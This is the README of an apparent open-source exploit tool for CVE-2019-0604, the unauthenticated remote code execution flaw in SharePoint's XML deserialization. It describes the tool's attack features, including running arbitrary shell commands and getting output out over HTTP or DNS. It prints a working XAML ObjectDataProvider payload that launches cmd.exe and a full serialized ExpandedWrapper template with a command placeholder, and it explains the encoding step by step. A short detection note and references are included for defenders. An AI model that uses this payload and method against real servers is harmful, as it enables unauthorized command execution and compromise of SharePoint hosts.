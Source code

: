 
# Desharialize
Desharialize: Easy mode to Exploit CVE-2019-0604 (Sharepoint XML Deserialization Unauthenticated RCE)

## What is it?

While there have been public POCs for CVE-2019-0604, I have noticed that those POCs are not clear, extensible or flexible. Some of them only have on hardcoded (and serialized/encoded) payloads, some of them require running custom .NET code before every payload, and some would run the payload on your machine first during the serialization process. I have reversed and analyzed the simple serialization/encoding algorithm used by Sharepoint, and I have created a raw template that can be used to serialize any custom payload on the fly without having to run .NET code for each payload, or run payloads that you can't read.

Find below usage examples for Desharialize as well as a brief explanation of the serialization process.

## Assumptions

To better utilize this tool in pentesting Sharepoint:
- It is assumed that you know what is the Sharepoint CVE-2019-0604
- It is assumed that you have found a vulnerable (Unpatched) Sharepoint server.
- It is assumed that you have found a vulnerable endpoint on that Sharepoint server (e.g. example.com/_layouts/15/Picker.aspx)


## Prerequisites

- Python 3.
- The requirements listed in the requirements.txt file


## Installing

pip3 install -r requirements.txt


Better to create a virtualenv environment for the tool. Please note that using sudo with pip is not recommended.


## Author

* **Mohammed Aldoub**, also known as **Voulnet**, find me on [Twitter](https://www.twitter.com/Voulnet)

## Main Features

- Run custom serialized payloads on targets (Make sure you have authorization from system owners!).
- Launch the payload on any vulnerable Sharepoint version without having to look for compatible Assembly names.
- No need to play musical chairs with dynamically changing VIEWSTATE and EVENTVALIDATION values, Desharialize scrapes them from the target automatically.
- Make pentesting Sharepoint fun again.
- This tool is aimed at testing Picker.aspx endpoints in particular. Not tested at other endpoints.
- This tool runs commands through the target's command shell using Sharepoint privilges, but no way to read output directly.
- To read output, another channel is needed: Sending result through HTTP, DNS or other options.
- Load commands from a file: This means no need for annoying, persky escaping and encoding of values to paste stuff into the shell.
- Burp Collaborator can help!

## Contributing

PRs are welcome!


## Testing

Installing and running an older version of Sharepoint to test this tool is a very annoying and cumbersome process. Installing and configuring Sharepoint was actually the only difficult thing in the process of developing this tool. To spare you sweat and blood, you may find these resources helpful, they contain a VM with Sharepoint pre-installed. You might need to fix up some licenses issues such as rearming Windows license, configuring a Developer license for MSSQL, and so on. The links are:
[Sharepoint 2016 Ready made VM](https://gauravmahajan.net/2017/10/06/sharepoint-server-2016-virtual-machine-download/) and [Sharepoint 2013 Ready made VM](https://gauravmahajan.net/2014/08/17/sharepoint-server-2013-sp1-virtual-machine-download/)

## Brief Explanation of the serialization process

In my analysis of this vulnerability, I noticed that the vulnerability has been explaned in depth by the authors of the awesome links you will find in the References section below. I will attempt to explain the serialization process, because this is what allowed me to create a dynamic payload you can change on the fly without calling .NET code everytime.

The serialized string is a XamlReader ExpandedWrapper which contains our payload in its XML format, An example taken from [this POC](https://github.com/linhlhq/CVE-2019-0604)  is:
```XML
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
	<ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
		<ObjectDataProvider.MethodParameters>
			<System:String>cmd.exe</System:String>
			<System:String>/c calc</System:String>
		</ObjectDataProvider.MethodParameters>
	</ObjectDataProvider>
</ResourceDictionary>
```

To serialize it, .NET calls a function called Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId, which takes this string object and performs some operations resulting finally in the serialized payload which looks like "__bp123435009700370047005600d60...etc"
By decompiling this function and debugging its code flow, we can see the following:

screenshot1 here

Here the function adds __ to the start of the string, then checks the number of objects sent to be serialized, here it's 1, so it adds 1 to 97 to convert the result into ascii (b ascii is 98 decimal), so the string becomes __b

screenshot2 here

After that, the code loops on the type of the element being serialized, it's currently of type object, so it looks up a table of types and their values from an array called typeHash.

screenshot3 here

When we decompile this array, we will find that the object type is the type #16, which has an index of 15 (starting from zero!), so the code adds the value of 16 to 97 resulting in 112, which is p in decimal, now the serialized string becomes __bp

screenshot4 here

Next, we check the type of the object being sent to be serialized, which is of type object, so we enter this if statement, where it takes our input, serialized it using the XmlSerializer class of .NET, then appends in front of it the the XamlReader Assembly Qualified name + ":" plus the XML serialized payload, so it looks like this: 

```xml
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089:<?xml version="1.0" encoding="utf-16"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'&gt;&lt;ObjectDataProvider x:Key='y' ObjectType='{x:Type Diag:Process}' MethodName='Start'&gt;&lt;ObjectDataProvider.MethodParameters&gt;&lt;System:String&gt;cmd&lt;/System:String&gt;&lt;System:String&gt;/c COMMANDHERE &lt;/System:String&gt;&lt;/ObjectDataProvider.MethodParameters&gt;&lt;/ObjectDataProvider&gt;&lt;/ResourceDictionary&gt; </anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```

After that, this serialized string, whose encoding is utf-16 is sent to be Hex-encoded, and then reversed, and also the length of this serialized string (after encoding, hexing and reversing) is calculated in hex (the length, that is - also encoded, hexed and reversed) and then put in front of the string so we have a string for example like "__bp82c135009700370047005600d60...etc", which actually means length of 82c1, so reversing that is 1c28 in hex, meaning 7208 in decimal. After that we have 35009700370047005600, so let's reverse that into 00530079007300740065, and decoding this from utf-16 and hex, we have 0x5379737465 which in ascii is Syste (System...etc etc)


## TODO:

- More testing against a wider range of versions and service packs for Sharepoint.
- Integrate fully with Metasploit.

## Detection

Check your web server logs for request containing "71e9bce111e9429c"
For more awesome detection steps, Snort and Sigma rules, please visit: [Mansour Alsaidie Blog](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

## References and further info

[Mansour Alsaidie Blog](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

[ZDI](https://www.zerodayinitiative.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability)

[k8gege POC](https://github.com/k8gege/CVE-2019-0604)

[.NET POC to create serialized payload](https://github.com/linhlhq/CVE-2019-0604) 


## Disclaimer

By using this tool, you absolve the tool author from any effect or repercussions resulting, directly or indirectly, from usage of this tool. This tool is provided as is, with no waranty or guarantee. This tool must only be used on legally authorized targets, and by using this tool you hereby declare that you have obtained proper legal permission from the tested targets, and that you fully absolve the tool author from any and all means and results, directly or indirectly, of utilizing this free open source tool. 

## Questions?

- Raise an issue here in Github.
- Contact me on Twitter.
